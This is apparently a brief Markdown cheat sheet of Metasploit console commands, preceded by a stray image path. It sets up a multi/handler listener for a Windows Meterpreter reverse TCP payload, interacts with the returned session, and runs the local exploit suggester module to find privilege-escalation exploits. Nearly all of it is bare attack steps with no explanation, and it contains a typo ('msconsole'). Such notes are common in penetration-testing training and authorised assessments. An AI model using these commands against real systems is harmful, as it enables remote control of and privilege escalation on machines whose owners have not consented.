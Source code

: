 ### start listener
```bash
msconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <IP>
run
```

### access the session created
`sessions -i 1`

### Search and Select locat exploit for priv escalation
```bash
background 

use post/multi/recon/local_exploit_suggester
set SESSION {}

run

```

